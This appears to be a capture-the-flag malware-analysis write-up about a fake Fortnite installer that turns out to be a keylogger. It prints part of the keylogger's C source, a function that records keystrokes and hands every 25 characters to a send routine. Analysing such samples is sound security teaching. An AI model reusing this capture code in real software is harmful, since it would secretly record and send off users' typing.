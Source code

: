 #  Fortnite 497 - Malware Analysis Writeup

## Challenge Descritption

God dammit. Someone told me this is fortnite premium with unlimited Vbucks. I reversed it and ITS NOT FORTNITE. Flag format: Securinets{Malware_commentedFlag_ServerIp_ServerPort_bufferSize}

---

## Provided Files

[fortnite_setup.exe](taskFiles/fortnite_setup.exe)

[This_Isnt_fortnite.c](taskFiles/This_Isnt_fortnite.c)

---

## TL;DR

**Malware Type:** Keylogger

This is a keylogger since it listens to low level keystrokes and sends them to a remote server for the attacker to access.
```c
void logk(int vkCode) {
    WCHAR keyName[2] = {0};
    BYTE keyboardState[256] = {0};
    GetKeyboardState(keyboardState);

    HKL layout = GetKeyboardLayout(0);
    int result = ToUnicode(vkCode, 0, keyboardState, keyName, 2, 0);

    if (result > 0) {
        buffer[count++] = keyName[0];
    } else {
        switch (vkCode) {
            case VK_SPACE: buffer[count++] = ' '; break;
            case VK_TAB: buffer[count++] = '\t'; break;
            case VK_RETURN: buffer[count++] = '\n'; break;
            case VK_BACK: buffer[count++] = '\b'; break;
            default: buffer[count++] = '?'; break;
        }
    }

    if (count == 25) {
        buffer[25] = '\0';
        sendlog();
        count = 0;
    }
}
```
